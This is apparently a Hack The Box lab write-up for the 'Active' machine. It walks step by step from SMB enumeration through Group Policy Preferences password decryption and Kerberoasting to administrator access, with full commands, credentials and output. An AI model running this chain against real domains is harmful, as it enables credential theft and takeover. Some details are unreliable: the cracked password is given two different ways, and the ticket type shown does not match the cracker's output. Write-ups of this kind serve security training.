

---
search:
  exclude: true
---
# Active Writeup

## Introduction :

Active is an easy Windows box released back in July 2018.

## **Part 1 : Initial Enumeration**

As always we begin our Enumeration using **Nmap** to enumerate opened ports. We will be using the **-F** flag in order to enumerate the opened ports quickly. 
    
    
      λ nihilist [ 10.10.14.48/23 ] [ ~ ]
      → nmap -F 10.10.10.100
      Starting Nmap 7.80 ( https://nmap.org ) at 2019-11-28 10:28 CET
      Nmap scan report for 10.10.10.100
      Host is up (0.079s latency).
      Not shown: 89 closed ports
      PORT      STATE SERVICE
      53/tcp    open  domain
      88/tcp    open  kerberos-sec
      135/tcp   open  msrpc
      139/tcp   open  netbios-ssn
      389/tcp   open  ldap
      445/tcp   open  microsoft-ds
      49152/tcp open  unknown
      49153/tcp open  unknown
      49154/tcp open  unknown
      49155/tcp open  unknown
      49157/tcp open  unknown
    
      Nmap done: 1 IP address (1 host up) scanned in 0.42 seconds
    

We are going to take a closer look at the ports 53, 80, 135, 139, 389, 445, using the flags **-sC** for default scripts and **-sV** to enumerate versions.
    
    
      λ nihilist [ 10.10.14.48/23 ] [ ~ ]
      → nmap -sC -sV -Pn 10.10.10.100 -p 53,88,135,139,389,445
      Starting Nmap 7.80 ( https://nmap.org ) at 2019-11-28 10:29 CET
      Nmap scan report for 10.10.10.100
      Host is up (0.086s latency).
    
      PORT    STATE SERVICE       VERSION
      53/tcp  open  domain        Microsoft DNS 6.1.7601 (1DB15D39) (Windows Server 2008 R2 SP1)
      | dns-nsid:
      |_  bind.version: Microsoft DNS 6.1.7601 (1DB15D39)
      88/tcp  open  kerberos-sec  Microsoft Windows Kerberos (server time: 2019-11-28 09:30:01Z)
      135/tcp open  msrpc         Microsoft Windows RPC
      139/tcp open  netbios-ssn   Microsoft Windows netbios-ssn
      389/tcp open  ldap          Microsoft Windows Active Directory LDAP (Domain: active.htb, Site: Default-First-Site-Name)
      445/tcp open  microsoft-ds?
      Service Info: Host: DC; OS: Windows; CPE: cpe:/o:microsoft:windows_server_2008:r2:sp1, cpe:/o:microsoft:windows
    
      Host script results:
      |_clock-skew: 17s
      | smb2-security-mode:
      |   2.02:
      |_    Message signing enabled and required
      | smb2-time:
      |   date: 2019-11-28T09:30:07
      |_  start_date: 2019-11-28T09:25:41
    
      Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
      Nmap done: 1 IP address (1 host up) scanned in 20.66 seconds
    
    

## **Part 2 : Getting User Access**

To enumerate the SMB Shares we'll be working with, we will use the enum4linux tool. 
    
    
      λ nihilist [ 10.10.14.48/23 ] [ ~ ]
    → enum4linux 10.10.10.100
    Starting enum4linux v0.8.9 ( http://labs.portcullis.co.uk/application/enum4linux/ ) on Thu Nov 28 10:52:05 2019
    
     ==========================
    |    Target Information    |
     ==========================
    Target ........... 10.10.10.100
    RID Range ........ 500-550,1000-1050
    Username ......... ''
    Password ......... ''
    Known Usernames .. administrator, guest, krbtgt, domain admins, root, bin, none
    
    
     ====================================================
    |    Enumerating Workgroup/Domain on 10.10.10.100    |
     ====================================================
    Cant load /etc/samba/smb.conf - run testparm to debug it
    [E] Cant find workgroup/domain
    
    
     ============================================
    |    Nbtstat Information for 10.10.10.100    |
     ============================================
    Cant load /etc/samba/smb.conf - run testparm to debug it
    Looking up status of 10.10.10.100
    No reply from 10.10.10.100
    
     =====================================
    |    Session Check on 10.10.10.100    |
     =====================================
    Use of uninitialized value $global_workgroup in concatenation (.) or string at /bin/enum4linux line 437.
    [+] Server 10.10.10.100 allows sessions using username '', password ''
    Use of uninitialized value $global_workgroup in concatenation (.) or string at /bin/enum4linux line 451.
    [+] Got domain/workgroup name:
    
     ===========================================
    |    Getting domain SID for 10.10.10.100    |
     ===========================================
    Use of uninitialized value $global_workgroup in concatenation (.) or string at /bin/enum4linux line 359.
    Unable to initialize messaging context
    rpcclient: Cant load /etc/samba/smb.conf - run testparm to debug it
    [+] Cant determine if host is part of domain or part of a workgroup
    
     ======================================
    |    OS information on 10.10.10.100    |
     ======================================
    Use of uninitialized value $global_workgroup in concatenation (.) or string at /bin/enum4linux line 458.
    Use of uninitialized value $os_info in concatenation (.) or string at /bin/enum4linux line 464.
    [+] Got OS info for 10.10.10.100 from smbclient:
    Use of uninitialized value $global_workgroup in concatenation (.) or string at /bin/enum4linux line 467.
    [+] Got OS info for 10.10.10.100 from srvinfo:
    Unable to initialize messaging context
    rpcclient: Cant load /etc/samba/smb.conf - run testparm to debug it
    
     =============================
    |    Users on 10.10.10.100    |
     =============================
    Use of uninitialized value $global_workgroup in concatenation (.) or string at /bin/enum4linux line 866.
    Use of uninitialized value $users in print at /bin/enum4linux line 874.
    Use of uninitialized value $users in pattern match (m//) at /bin/enum4linux line 877.
    
    Use of uninitialized value $global_workgroup in concatenation (.) or string at /bin/enum4linux line 881.
    Use of uninitialized value $users in print at /bin/enum4linux line 888.
    Use of uninitialized value $users in pattern match (m//) at /bin/enum4linux line 890.
    
     =========================================
    |    Share Enumeration on 10.10.10.100    |
     =========================================
    Use of uninitialized value $global_workgroup in concatenation (.) or string at /bin/enum4linux line 640.
    Unable to initialize messaging context
    smbclient: Cant load /etc/samba/smb.conf - run testparm to debug it
    do_connect: Connection to 10.10.10.100 failed (Error NT_STATUS_RESOURCE_NAME_NOT_FOUND)
    
    	Sharename       Type      Comment
    	---------       ----      -------
    	ADMIN$          Disk      Remote Admin
    	C$              Disk      Default share
    	IPC$            IPC       Remote IPC
    	NETLOGON        Disk      Logon server share
    	Replication     Disk
    	SYSVOL          Disk      Logon server share
    	Users           Disk
    Reconnecting with SMB1 for workgroup listing.
    Unable to connect with SMB1 -- no workgroup available
    
    [+] Attempting to map shares on 10.10.10.100
    Use of uninitialized value $global_workgroup in concatenation (.) or string at /bin/enum4linux line 654.
    //10.10.10.100/ADMIN$	Mapping: DENIED, Listing: N/A
    Use of uninitialized value $global_workgroup in concatenation (.) or string at /bin/enum4linux line 654.
    //10.10.10.100/C$	Mapping: DENIED, Listing: N/A
    Use of uninitialized value $global_workgroup in concatenation (.) or string at /bin/enum4linux line 654.
    //10.10.10.100/IPC$	Mapping: OK	Listing: DENIED
    Use of uninitialized value $global_workgroup in concatenation (.) or string at /bin/enum4linux line 654.
    //10.10.10.100/NETLOGON	Mapping: DENIED, Listing: N/A
    Use of uninitialized value $global_workgroup in concatenation (.) or string at /bin/enum4linux line 654.
    //10.10.10.100/Replication	Mapping: OK, Listing: OK
    Use of uninitialized value $global_workgroup in concatenation (.) or string at /bin/enum4linux line 654.
    //10.10.10.100/SYSVOL	Mapping: DENIED, Listing: N/A
    Use of uninitialized value $global_workgroup in concatenation (.) or string at /bin/enum4linux line 654.
    //10.10.10.100/Users	Mapping: DENIED, Listing: N/A
    
     ====================================================
    |    Password Policy Information for 10.10.10.100    |
     ====================================================
    [E] Unexpected error from polenum:
    Traceback (most recent call last):
      File "/usr/bin/polenum", line 16, in 
        from impacket.dcerpc.v5.rpcrt import DCERPC_v5
    Use of uninitialized value $global_workgroup in concatenation (.) or string at /bin/enum4linux line 501.
    ImportError: No module named impacket.dcerpc.v5.rpcrt
    [+] Retieved partial password policy with rpcclient:
    
    
    
     ==============================
    |    Groups on 10.10.10.100    |
     ==============================
    Use of uninitialized value $global_workgroup in concatenation (.) or string at /bin/enum4linux line 542.
    
    [+] Getting builtin groups:
    
    [+] Getting builtin group memberships:
    Use of uninitialized value $global_workgroup in concatenation (.) or string at /bin/enum4linux line 542.
    
    [+] Getting local groups:
    
    [+] Getting local group memberships:
    Use of uninitialized value $global_workgroup in concatenation (.) or string at /bin/enum4linux line 593.
    
    [+] Getting domain groups:
    
    [+] Getting domain group memberships:
    
     =======================================================================
    |    Users on 10.10.10.100 via RID cycling (RIDS: 500-550,1000-1050)    |
     =======================================================================
    Use of uninitialized value $global_workgroup in concatenation (.) or string at /bin/enum4linux line 710.
    Use of uninitialized value $global_workgroup in concatenation (.) or string at /bin/enum4linux line 710.
    Use of uninitialized value $global_workgroup in concatenation (.) or string at /bin/enum4linux line 710.
    Use of uninitialized value $global_workgroup in concatenation (.) or string at /bin/enum4linux line 710.
    Use of uninitialized value $global_workgroup in concatenation (.) or string at /bin/enum4linux line 710.
    Use of uninitialized value $global_workgroup in concatenation (.) or string at /bin/enum4linux line 710.
    Use of uninitialized value $global_workgroup in concatenation (.) or string at /bin/enum4linux line 710.
    Use of uninitialized value $global_workgroup in concatenation (.) or string at /bin/enum4linux line 742.
    
     =============================================
    |    Getting printer info for 10.10.10.100    |
     =============================================
    Use of uninitialized value $global_workgroup in concatenation (.) or string at /bin/enum4linux line 991.
    Unable to initialize messaging context
    rpcclient: Cant load /etc/samba/smb.conf - run testparm to debug it
    
    
    enum4linux complete on Thu Nov 28 10:53:01 2019
    
    

We seem to have access to the Replication Share, so we will navigate to it in order to see what we can work with.
    
    
    λ root [ 10.10.14.48/23 ] [/home/nihilist] → smbclient -N -U "" //10.10.10.100/Replication
    Unable to initialize messaging context
    smbclient: Cant load /etc/samba/smb.conf - run testparm to debug it
    Try "help" to get a list of possible commands.
    smb: \> ls
      .                                   D        0  Sat Jul 21 12:37:44 2018
      ..                                  D        0  Sat Jul 21 12:37:44 2018
      active.htb                          D        0  Sat Jul 21 12:37:44 2018
    
    		10459647 blocks of size 4096. 4931286 blocks available
    smb: \> cd active.htb
    smb: \active.htb\> ls
      .                                   D        0  Sat Jul 21 12:37:44 2018
      ..                                  D        0  Sat Jul 21 12:37:44 2018
      DfsrPrivate                       DHS        0  Sat Jul 21 12:37:44 2018
      Policies                            D        0  Sat Jul 21 12:37:44 2018
      scripts                             D        0  Wed Jul 18 20:48:57 2018
    
    		10459647 blocks of size 4096. 4931286 blocks available
    smb: \active.htb\> cd scripts
    smb: \active.htb\scripts\> ls
      .                                   D        0  Wed Jul 18 20:48:57 2018
      ..                                  D        0  Wed Jul 18 20:48:57 2018
    
    		10459647 blocks of size 4096. 4931286 blocks available
    smb: \active.htb\scripts\> cd ..
    smb: \active.htb\> cd DfsPrivate
    cd \active.htb\DfsPrivate\: NT_STATUS_OBJECT_NAME_NOT_FOUND
    smb: \active.htb\> ls
      .                                   D        0  Sat Jul 21 12:37:44 2018
      ..                                  D        0  Sat Jul 21 12:37:44 2018
      DfsrPrivate                       DHS        0  Sat Jul 21 12:37:44 2018
      Policies                            D        0  Sat Jul 21 12:37:44 2018
      scripts                             D        0  Wed Jul 18 20:48:57 2018
    
    		10459647 blocks of size 4096. 4931286 blocks available
    smb: \active.htb\> cd Policies
    smb: \active.htb\Policies\> ls
      .                                   D        0  Sat Jul 21 12:37:44 2018
      ..                                  D        0  Sat Jul 21 12:37:44 2018
      {31B2F340-016D-11D2-945F-00C04FB984F9}      D        0  Sat Jul 21 12:37:44 2018
      {6AC1786C-016F-11D2-945F-00C04fB984F9}      D        0  Sat Jul 21 12:37:44 2018
    
    		10459647 blocks of size 4096. 4931286 blocks available
    smb: \active.htb\Policies\> cd {31B2F340-016D-11D2-945F-00C04FB984F9}
    smb: \active.htb\Policies\{31B2F340-016D-11D2-945F-00C04FB984F9}\> ls
      .                                   D        0  Sat Jul 21 12:37:44 2018
      ..                                  D        0  Sat Jul 21 12:37:44 2018
      GPT.INI                             A       23  Wed Jul 18 22:46:06 2018
      Group Policy                        D        0  Sat Jul 21 12:37:44 2018
      MACHINE                             D        0  Sat Jul 21 12:37:44 2018
      USER                                D        0  Wed Jul 18 20:49:12 2018
    
    		10459647 blocks of size 4096. 4931286 blocks available
    smb: \active.htb\Policies\{31B2F340-016D-11D2-945F-00C04FB984F9}\> cd MACHINE
    smb: \active.htb\Policies\{31B2F340-016D-11D2-945F-00C04FB984F9}\MACHINE\> ls
      .                                   D        0  Sat Jul 21 12:37:44 2018
      ..                                  D        0  Sat Jul 21 12:37:44 2018
      Microsoft                           D        0  Sat Jul 21 12:37:44 2018
      Preferences                         D        0  Sat Jul 21 12:37:44 2018
      Registry.pol                        A     2788  Wed Jul 18 20:53:45 2018
    
    		10459647 blocks of size 4096. 4931286 blocks available
    smb: \active.htb\Policies\{31B2F340-016D-11D2-945F-00C04FB984F9}\MACHINE\> cd Preferences
    smb: \active.htb\Policies\{31B2F340-016D-11D2-945F-00C04FB984F9}\MACHINE\Preferences\> ls
      .                                   D        0  Sat Jul 21 12:37:44 2018
      ..                                  D        0  Sat Jul 21 12:37:44 2018
      Groups                              D        0  Sat Jul 21 12:37:44 2018
    c
    		10459647 blocks of size 4096. 4931286 blocks available
    smb: \active.htb\Policies\{31B2F340-016D-11D2-945F-00C04FB984F9}\MACHINE\Preferences\> cd Groups
    smb: \active.htb\Policies\{31B2F340-016D-11D2-945F-00C04FB984F9}\MACHINE\Preferences\Groups\> ls
      .                                   D        0  Sat Jul 21 12:37:44 2018
      ..                                  D        0  Sat Jul 21 12:37:44 2018
      Groups.xml                          A      533  Wed Jul 18 22:46:06 2018
    
    		10459647 blocks of size 4096. 4931286 blocks available
    smb: \active.htb\Policies\{31B2F340-016D-11D2-945F-00C04FB984F9}\MACHINE\Preferences\Groups\> get Groups.xml
    getting file \active.htb\Policies\{31B2F340-016D-11D2-945F-00C04FB984F9}\MACHINE\Preferences\Groups\Groups.xml of size 533 as Groups.xml (1.6 KiloBytes/sec) (average 1.6 KiloBytes/sec)
    smb: \active.htb\Policies\{31B2F340-016D-11D2-945F-00C04FB984F9}\MACHINE\Preferences\Groups\> exit
    
    

Opening up the groups.xml file we see that we have a hashed password to work with. 
    
    
      λ root [ 10.10.14.48/23 ] [nihilist/_HTB/Active] → cat Groups.xml
    <****?xml version="1.0" encoding="utf-8"?****> <****Groups clsid="{3125E937-EB16-4b4c-9934-544FC6D24D26}"> <****User clsid="{DF5F1855-51E5-4d24-8B1A-D9BDE98BA1D1}" name="active.htb\SVC_TGS" image="2" changed="2018-07-18 20:46:06" uid="{EF57DA28-5F69-4530-A59E-AAB58578219D}"> <****Properties action="U" newName="" fullName="" description="" cpassword="edBSHOwhZLTjt/QS9FeIcJ83mjWA98gw9guKOhJOdcqh+ZGMeXOsQbCpZ3xUjTLfCuNH8pG5aSVYdYw/NglVmQ" changeLogon="0" noChange="1" neverExpires="1" acctDisabled="0" userName="active.htb\SVC_TGS"/>
    <****/Groups>

We seem to have a hashed password and a Username : SVC_TGS 
    
    
    cpassword="edBSHOwhZLTjt/QS9FeIcJ83mjWA98gw9guKOhJOdcqh+ZGMeXOsQbCpZ3xUjTLfCuNH8pG5aSVYdYw/NglVmQ"
    

We will be using the gpp-decrypt tool in order to decrypt the hashed password. 
    
    
      λ root [ 10.10.14.48/23 ] [nihilist/_HTB/Active] →  gpp-decrypt edBSHOwhZLTjt/QS9FeIcJ83mjWA98gw9guKOhJOdcqh+ZGMeXOsQbCpZ3xUjTLfCuNH8pG5aSVYdYw/NglVmQ
      /usr/bin/gpp-decrypt:21: warning: constant OpenSSL::Cipher::Cipher is deprecated
      GPPstillStandingStrong2k18
    

And we now have the credentials **SVC_TGS:GPPstillStandingStrong2k18** ! Let's see if we can login.
    
    
      λ root [ 10.10.14.48/23 ] [nihilist/_HTB/Active] → smbclient -U svc_tgs //10.10.10.100/Users
    Unable to initialize messaging context
    smbclient: Can't load /etc/samba/smb.conf - run testparm to debug it
    Enter WORKGROUP\svc_tgs's password:
    Try "help" to get a list of possible commands.
    smb: \> whoami
    whoami: command not found
    smb: \> id
    id: command not found
    smb: \> ls
      .                                  DR        0  Sat Jul 21 16:39:20 2018
      ..                                 DR        0  Sat Jul 21 16:39:20 2018
      Administrator                       D        0  Mon Jul 16 12:14:21 2018
      All Users                         DHS        0  Tue Jul 14 07:06:44 2009
      Default                           DHR        0  Tue Jul 14 08:38:21 2009
      Default User                      DHS        0  Tue Jul 14 07:06:44 2009
      desktop.ini                       AHS      174  Tue Jul 14 06:57:55 2009
      Public                             DR        0  Tue Jul 14 06:57:55 2009
      SVC_TGS                             D        0  Sat Jul 21 17:16:32 2018
    
    		10459647 blocks of size 4096. 4924856 blocks available
    smb: \> cd SVC_TGS
    smb: \SVC_TGS\> ls
      .                                   D        0  Sat Jul 21 17:16:32 2018
      ..                                  D        0  Sat Jul 21 17:16:32 2018
      Contacts                            D        0  Sat Jul 21 17:14:11 2018
      Desktop                             D        0  Sat Jul 21 17:14:42 2018
      Downloads                           D        0  Sat Jul 21 17:14:23 2018
      Favorites                           D        0  Sat Jul 21 17:14:44 2018
      Links                               D        0  Sat Jul 21 17:14:57 2018
      My Documents                        D        0  Sat Jul 21 17:15:03 2018
      My Music                            D        0  Sat Jul 21 17:15:32 2018
      My Pictures                         D        0  Sat Jul 21 17:15:43 2018
      My Videos                           D        0  Sat Jul 21 17:15:53 2018
      Saved Games                         D        0  Sat Jul 21 17:16:12 2018
      Searches                            D        0  Sat Jul 21 17:16:24 2018
    
    		10459647 blocks of size 4096. 4924856 blocks available
    smb: \SVC_TGS\> cd Desktop
    smb: \SVC_TGS\Desktop\> ls
      .                                   D        0  Sat Jul 21 17:14:42 2018
      ..                                  D        0  Sat Jul 21 17:14:42 2018
      user.txt                            A       34  Sat Jul 21 17:06:25 2018
    
    		10459647 blocks of size 4096. 4924856 blocks available
    smb: \SVC_TGS\Desktop\> get user.txt
    getting file \SVC_TGS\Desktop\user.txt of size 34 as user.txt (0.1 KiloBytes/sec) (average 0.1 KiloBytes/sec)
    smb: \SVC_TGS\Desktop\> exit
    
    λ root [ 10.10.14.48/23 ] [nihilist/_HTB/Active] → cat user.txt
    86XXXXXXXXXXXXXXXXXXXXXXXXXXXXXX
    

And that's it ! we have been able to log in as the user SVC_TGS and print out the user flag. 

## **Part 3 : Getting Root Access**

Earlier our nmap scan picked up the 88th port running the kerberos service. so we will run the python script **kerberoastv2.py**
    
    
    λ root [ 10.10.14.48/23 ] [_HTB/Active/PyKerberoast] at  master ✔
    → python2 kerberoastv2.py -a 10.10.10.100 -b cn=users,dc=active,dc=htb -d active -u svc_tgs -p GPPstillStandingStrong2k18 > HASH.txt
    
    λ root [ 10.10.14.48/23 ] [_HTB/Active/PyKerberoast] at  master ✔
    → cat HASH.txt
    
    [+]Starting...
    $krb5tgs$18$*krbtgt$ACTIVE.HTB$spn*$cabf481b2b4dbd9567c5bee15e9d2ec9$04f2407e7fadab18a8f8ebda0e66af92e91c305098340e701383738a9cd317b15024815917af864e679ae02f8b610e18842308a54a9f0a2095ab688a972c5e03903f5d2cbf2d72cc5894ff6fa45413b95a1c94ee8fd1c9e8990c95748ba93a83bc078b3653b678a60fa0eb42cdaccdb3b4e5d5d97925676059c5b3495ce37a1fc964cf7cdeba452811d52a103633ffc5033709c3a2ac0f4f0a6aa06700b2817956c37c2f20e4ef5684b41d3f87e3f7fd80ed51088ef648f874b5fe113b5da0ebe5c7e77d63945ca190bb1dab377f75f6da85cbc261635fefdd42e621ac711c26c87d99b761941330e010fec48fd06219cd1aa7a8e91c9b0f36728ca30e68128db767e2e54c57d185b0700c03e7eb66fa62903971cdca7d481e4d4db09cc22a943ddb8ead77b4a2f2fc5cac6f34a6af8e796b5dd9f2e4310af99271a64af70c2c3aacfb8820b805d8efb3899e7a4d22c5adbf33f970e8fa7ce8ea79ad83a265aa3a4af2464d7cb296333199251a27f2fc189935f87c116e9143accd254ba4fb5d2a6f80af535076afbf8a89bea83941f703d312605d7fadc5d6583c9a86463ddc69165bdb0aabeab30edee51032dc160e3e349eb2f0c465f891015b7a127c9ef47949fdba2c1e2392d0cee6d03f54e5d36e63be681d1d2ad084c0f892b447352039488f21c184d7d0d5d68c0f15197579217ac48d3f1770710e5e0af95140d7394aae11371fd098b9591a1f6de4d4448db180a612917a8b0309e1b1a443d52d40f974e1036406c0aacf46b3be2286408cacd0c55a0e3146e7226cf6ab9c5d1b2af6939eac9c750c652f02925ab0549c3fd56f3655ceb37ec368dc24c034e6030a1b25dac3691e80098547a08b638560f2ffd37dcde83df28152fcbc9a93d9ef11a2e84f5b8efd3c8489983dceb394d22969d9c86b06af4b6633c55d86f61d1feac5dd4c541fa4e405b2b2e5fc41622833a45026dfef1e7a04b0577f2b5229b68e12af85af2cc074c3aae267c1c942cea9bcb21640bd2d0fe75996f93623e5cbaab186b7cedef4c1db1240b5c8cbb486f50bc7fafed38cd40a7605a6511d0cd393c8aa1c0387c7df9bd8c9a3f3af3eb2fe6341a88c6fac220f53725cd574f92c75e1f1a47be01a1a6bbf865fef2a681b981f2a2cf126797b7fcab95315c430f46e6140266d693e41dfb964c5f80e88ebb6c04cbe6299ef0f5cab31e8e75278474633d33251029cf0cdd2c40fe4678581ecdd193b7eac40
    
    

now we have a ticket for the admin user ! we just need to run john in combination with rockyou.txt to find the password.
    
    
    john -w=rockyou.txt HASH.txt
    Using default input encoding: UTF-8
    Loaded 1 password hash (krb5tgs, Kerberos 5 TGS etype 23 [MD4 HMAC-MD5 RC4])
    Will run 2 OpenMP threads
    Press 'q' or Ctrl-C to abort, almost any other key for status
    
    **Ticketmaster1968 (?)**
    
    1g 0:00:00:39 DONE (2019-11-28 13:34) 0.02515g/s 265093p/s 265093c/s 265093C/s Tiffani1432..Tiago_18
    Use the "--show" option to display all of the cracked passwords reliably
    Session completed
    
    

Now we have the Administrator password ! Let's try to login using our newly acquired credentials : **Administrator:Ticketmaster1986**
    
    
      λ root [ 10.10.14.48/23 ] [nihilist/_HTB/Active] → smbclient -U administrator //10.10.10.100/Users
    Unable to initialize messaging context
    smbclient: Can't load /etc/samba/smb.conf - run testparm to debug it
    Enter WORKGROUP\administrator's password:
    Try "help" to get a list of possible commands.
    smb: \> ls
      .                                  DR        0  Sat Jul 21 16:39:20 2018
      ..                                 DR        0  Sat Jul 21 16:39:20 2018
      Administrator                       D        0  Mon Jul 16 12:14:21 2018
      All Users                         DHS        0  Tue Jul 14 07:06:44 2009
      Default                           DHR        0  Tue Jul 14 08:38:21 2009
      Default User                      DHS        0  Tue Jul 14 07:06:44 2009
      desktop.ini                       AHS      174  Tue Jul 14 06:57:55 2009
      Public                             DR        0  Tue Jul 14 06:57:55 2009
      SVC_TGS                             D        0  Sat Jul 21 17:16:32 2018
    
    		10459647 blocks of size 4096. 4924582 blocks available
    smb: \> cd Administrator
    smb: \Administrator\> ls
      .                                   D        0  Mon Jul 16 12:14:21 2018
      ..                                  D        0  Mon Jul 16 12:14:21 2018
      AppData                            DH        0  Mon Jul 16 12:14:15 2018
      Application Data                  DHS        0  Mon Jul 16 12:14:15 2018
      Contacts                           DR        0  Mon Jul 30 15:50:10 2018
      Cookies                           DHS        0  Mon Jul 16 12:14:15 2018
      Desktop                            DR        0  Mon Jul 30 15:50:10 2018
      Documents                          DR        0  Mon Jul 30 15:50:10 2018
      Downloads                          DR        0  Mon Jul 30 15:50:27 2018
      Favorites                          DR        0  Mon Jul 30 15:50:10 2018
      Links                              DR        0  Mon Jul 30 15:50:10 2018
      Local Settings                    DHS        0  Mon Jul 16 12:14:15 2018
      Music                              DR        0  Mon Jul 30 15:50:10 2018
      My Documents                      DHS        0  Mon Jul 16 12:14:15 2018
      NetHood                           DHS        0  Mon Jul 16 12:14:15 2018
      NTUSER.DAT                        AHS   524288  Mon Jul 30 19:21:29 2018
      ntuser.dat.LOG1                   AHS   262144  Thu Nov 28 11:26:05 2019
      ntuser.dat.LOG2                   AHS        0  Mon Jul 16 12:14:09 2018
      NTUSER.DAT{016888bd-6c6f-11de-8d1d-001e0bcde3ec}.TM.blf    AHS    65536  Mon Jul 16 12:14:15 2018
      NTUSER.DAT{016888bd-6c6f-11de-8d1d-001e0bcde3ec}.TMContainer00000000000000000001.regtrans-ms    AHS   524288  Mon Jul 16 12:14:15 2018
      NTUSER.DAT{016888bd-6c6f-11de-8d1d-001e0bcde3ec}.TMContainer00000000000000000002.regtrans-ms    AHS   524288  Mon Jul 16 12:14:15 2018
      ntuser.ini                         HS       20  Mon Jul 16 12:14:15 2018
      Pictures                           DR        0  Mon Jul 30 15:50:10 2018
      PrintHood                         DHS        0  Mon Jul 16 12:14:15 2018
      Recent                            DHS        0  Mon Jul 16 12:14:15 2018
      Saved Games                        DR        0  Mon Jul 30 15:50:10 2018
      Searches                           DR        0  Mon Jul 30 15:50:10 2018
      SendTo                            DHS        0  Mon Jul 16 12:14:15 2018
      Start Menu                        DHS        0  Mon Jul 16 12:14:15 2018
      Templates                         DHS        0  Mon Jul 16 12:14:15 2018
      Videos                             DR        0  Mon Jul 30 15:50:10 2018
    
    		10459647 blocks of size 4096. 4924582 blocks available
    smb: \Administrator\> cd Desktop
    smb: \Administrator\Desktop\> ls
      .                                  DR        0  Mon Jul 30 15:50:10 2018
      ..                                 DR        0  Mon Jul 30 15:50:10 2018
      desktop.ini                       AHS      282  Mon Jul 30 15:50:10 2018
      root.txt                            A       34  Sat Jul 21 17:06:07 2018
    
    		10459647 blocks of size 4096. 4924582 blocks available
    smb: \Administrator\Desktop\> get root.txt
    getting file \Administrator\Desktop\root.txt of size 34 as root.txt (0.1 KiloBytes/sec) (average 0.1 KiloBytes/sec)
    smb: \Administrator\Desktop\> exit
    
    λ root [ 10.10.14.48/23 ] [nihilist/_HTB/Active] → cat root.txt
    b5XXXXXXXXXXXXXXXXXXXXXXXXXXXXXX
    
    

And that's it ! The credentials gave us access to the Administrator User, and therefore we have been able to print out the root flag.

## **Conclusion**

Here we can see the progress graph :

